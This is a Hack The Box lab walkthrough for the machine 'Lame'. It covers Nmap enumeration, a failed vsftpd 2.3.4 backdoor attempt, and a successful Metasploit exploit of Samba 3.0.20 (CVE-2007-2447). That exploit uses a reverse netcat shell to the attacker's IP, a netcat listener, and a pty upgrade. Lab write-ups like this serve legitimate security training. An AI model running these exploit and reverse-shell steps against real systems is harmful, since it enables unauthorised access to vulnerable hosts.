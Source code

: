 # Hack The Box - Lame

IP Address: 10.10.10.3  
Difficulty: Easy  
Categories: FTP, SMB  
Tools Used: Nmap, smbclient, Metasploit, Netcat, Python

## Enumeration

1. Basic Nmap Scan:
nmap 10.10.10.3

2. FTP Version Detection:
nmap -sV -p 21 10.10.10.3  
Result: vsftpd 2.3.4 (known vulnerable)

## Exploiting FTP (vsftpd 2.3.4)

Launch Metasploit:
msfconsole

Use exploit:
use exploit/unix/ftp/vsftpd_234_backdoor  
set RHOSTS 10.10.10.3  
run

Result: Exploit unsuccessful, no shell opened.

## SMB Enumeration

Scan SMB ports:
nmap -sV -p 139,445 10.10.10.3

Check SMB shares:
smbclient -L 10.10.10.3 -N  
Result: Found Samba version 3.0.20

## Exploiting Samba 3.0.20 (CVE-2007-2447)

Launch Metasploit:
msfconsole

Use Samba exploit:
use exploit/multi/samba/usermap_script  
set RHOSTS 10.10.10.3  
set RPORT 139  
set LHOST 10.10.14.106   # Replace with your VPN IP  
set LPORT 4444  
set PAYLOAD cmd/unix/reverse_netcat  
run

In a new terminal, start Netcat listener:
nc -lvnp 4444

Result: [*] Command shell session 1 opened

## Upgrade to Full TTY (Optional)

If you want a stable shell:
python -c 'import pty; pty.spawn("/bin/bash")'

## Summary

Service: FTP  
Port: 21  
Version: vsftpd 2.3.4  
Exploit: exploit/unix/ftp/vsftpd_234_backdoor  
Result: ❌ Failed

Service: SMB  
Port: 139  
Version: Samba 3.0.20  
Exploit: exploit/multi/samba/usermap_script  
Result: ✅ Success

## Final Notes

- Even if Metasploit doesn’t show a shell, check your Netcat listener.
- Use smbclient when Nmap doesn’t reveal full SMB details.
- Always upgrade your shell to TTY for better usability.
- Replace LHOST with your actual tun0 IP before running reverse shell exploits.

Author: YourName  
Platform: Hack The Box  
Machine: Lame  
Level: Easy

